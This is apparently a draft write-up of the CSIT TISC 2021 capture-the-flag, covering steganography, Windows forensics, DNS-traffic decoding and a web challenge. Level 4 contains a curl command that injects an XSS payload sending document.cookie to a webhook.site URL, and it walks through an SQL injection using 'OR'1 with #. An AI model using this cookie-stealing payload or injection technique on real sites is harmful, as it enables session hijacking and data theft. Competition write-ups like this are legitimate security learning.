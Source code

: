 ## Still in the midst of editing
# CSIT_TISC2021
## Level 1
### Challenge 1 : File1.wav
* Use Sonic Visualiser to open .wav file and the morse code appears.
![Morse_Code_In_File](https://github.com/irboi746/CSIT_TISC2021/blob/main/Resources/L1-file1_wav.JPG)
* Flag : **CSITISLOCATEDINSCIENCEPARK**

### Challenge 2 : File2.jpg
* Information Hidden in the metadata. 
* Tricky things is when it is downloaded, photo is modified. 
* Hence we will need to use online exif tool to extract metadata from image url.
![EXIF](https://github.com/irboi746/CSIT_TISC2021/blob/main/Resources/L1-file2_jpg.JPG)
* Flag : **2003:08:25 14:55:27**

### Challenge 3 : File3.jpg
1.  Used exiftool online --> no metadata
2.  Used HxD to strings to see any text hidden within the file. 
3.  Notable Strings 2 x "picture_with_text.jpg"
4.  Looked into the Hex Editor for "picture_with_text.jpg" text string and saw something suspicious : "PK"
![HXD](https://github.com/irboi746/CSIT_TISC2021/blob/main/Resources/L1-file3_jpg_2_sus_pk_ext.JPG)
* Used binwalk to extract and xxd to look into the binaries of the unzipped file again and saw it... A suspicious looking message.
![BINWALK](https://github.com/irboi746/CSIT_TISC2021/blob/main/Resources/L1-file3_jpg_3_extracted.JPG)
![XXD_OUT](https://github.com/irboi746/CSIT_TISC2021/blob/main/Resources/L1-file3_jpg_4_xxd.JPG)
* Cyberchef ROT 13 and FLAG: **applecarrotpear**
![FINAL](https://github.com/irboi746/CSIT_TISC2021/blob/main/Resources/L1-file3_jpg_5_cyberchef.JPG)   

## Windows10.ova File
### Challenge 4 : What is the name of the user?
Windows Search --> System Information --> Flag: {TISC:Adam}

### Challenge 5 : Which time was the user's most recent logon? Convert it UTC before submitting.
--> EventViewer --> Filter Event 4624 --> Look out for Logon Type : 2

### Challenge 6 : A 7z archive was deleted, what is the value of the file CRC32 hash that is inside the 7z archive?
Download 7zip --> move into vm --> install 7zip in vm --> open archive Flag : 

### Challenge 7 : Question1: How many users have an RID of 1000 or above on the machine? What is the account name for RID of 501? What is the account name for RID of 503?
go to cmd --> wmic useraccounts get sid,name Flag 

### Challenge 8 : Question1: How many times did the user visit https://www.csit.gov.sg/about-csit/who-we-are ? How many times did the user visit https://www.facebook.com ? How many times did the user visit https://www.live.com ?
Use Nirsoft BrowsingHistoryView 

### Challenge 9 : A device with the drive letter “Z” was connected as a shared folder in VirtualBox. What was the label of the volume? Perhaps the registry can tell us the "connected" drive?
https://docs.microsoft.com/en-us/troubleshoot/windows-server/networking/mapped-network-drive-disconnected

### Challenge 10 : A file with SHA1 0D97DBDBA2D35C37F434538E4DFAA06FCCC18A13 is in the VM… somewhere. What is the name of the file that is of interest?

## Level 2
### We have detected and captured a stream of anomalous DNS network traffic sent out from one of the PALINDROME compromised servers. None of the domain names found are active. Either PALINDROME had shut them down or there's more to it than it seems. This level contains 2 flags and both flags can be found independently from the same pcap file as attached here.
Open pcap --> saw a pattern d33d(2 digit)(7char)
split 2 digit and 7 char
### DEE-NA-SAW as a need Part 2
take the python script output and throw into cyberchef
* DEE-NA-SAW part 2 has a peculiar string ***"ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz+/"***
### DEE-NA-SAW as a need Part 1
* string saw above is the decoder for Part 1.
* wrote a python script to do a substitution for above string with the 2 digit numbers in part 1 (attached in this repo)
* found out that the substituted cipher is a base64 encoded data and base64 is in the form of the above ***string***
* throw into cyberchef to decode base64 with custom string
* saw PK file extension
* extract as zip file ---> "What you Seek is within"
* Flag : 

## Level 3
### An attack was detected on an internal network that blocked off all types of executable files. How did this happen? Upon further investigations, we recovered these 2 grey-scale images. What could they be?
* Downloaded the two bmp images and straight out threw it into cyberchef
* Content of 1.bmp
* Content of 2.bmp
Online tool that helps extraction : https://stegonline.georgeom.net/extract
Reference for PE format : https://stackoverflow.com/questions/34684660/how-to-determine-the-size-of-an-pe-executable-file-from-headers-and-or-footers

## Level 4
### One day, the admin of Apple Story Pte Ltd received an anonymous email.
> Dear admins of Apple Story, We are PALINDROME. We have took control over your system and stolen your secret formula! Do not fear for we are only after the money.Pay us our demand and we will be gone. For starters, we have denied all controls from you. We demand a ransom of 1 BTC to be sent to 1BvBMSEYstWetqTFn5Au4m4GFg7xJaNVN2 by 31 dec 2021. Do not contact the police or seek for help. Failure to do so and the plant is gone. We planted a monitoring kit so do not test us. Remember 1 BTC by 31 dec 2021 and we will be gone. Muahahahaha. Regards, PALINDROME
### Management have just one instruction. Retrieve the encryption key before the deadline and solve this.
* since hint is free anyway, might as well check it right?
(insert image here)
* So... after some googling... Here are some possiblilities
   1. https://www.riskiq.com/what-is-magecart/
   2. https://heimdalsecurity.com/blog/magecart-group-conceal-stolen-credit-card-details-into-image-files/
   3. https://thehackernews.com/2021/05/magecart-hackers-now-hide-php-based.html 
* Checking out 1 : tried looking for javascripts that are running and see if there are any vulnerability. \
  below is the only script that can be found, nothing vulnerable there. \
  
  Tried all the web attacks on the payment page. Nothing much from there

* Checking out 2 : checking out the images within the website \
nothing suspicious about the svg image. Hex output seems normal
nothing suspicious about the gif. All looks normal, even after using hex editor to skim through and strings, nothing suspicious

* Checking out 3 : checking the favicon of the website
same procedure as images above which is to throw into cyberchef and look at the hex and... found these : \
which led to this : 

* Nice another webpage and it seems to be doing a POST request with a certain field.
* Reference : https://infinitelogins.com/2020/10/13/using-cross-site-scripting-xss-to-steal-cookies/
commands used
```
curl -X POST "http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/xcvlosxgbtfcofovywbxdawregjbzqta.php" -d "14c4b06b824ec593239362517f538b29=<script>document.write('<img src="https://webhook.site/694ffb57-9ed8-4db2-86ae-5463fea3af0b?c='%2bdocument.cookie%2b'" />');</script>"
```
* robots.x=txt and found 2 interesting result found
* login.php leads to admin page
* debug=TRUE leads to debug message as photo
* we can come up with the hypothesis that SQL query is 
```
SELECT * FROM status WHERE filter=filter AND ID>0
```
* from the debug message, we realise that query uses "'" single quote
* 'OR'1-- yields empty field which means that there is a special character filter
* removing "--" yields 
* Thus we seem to be very close.
* It now seem like we need to test for what are the useable characters and what are not.
* using 'OR'1 and appending special characters to it we came to # and the flag is out.
* Further investigation and we find out that # actually comments out ID>0 and hence the query will output what is on ID=0  





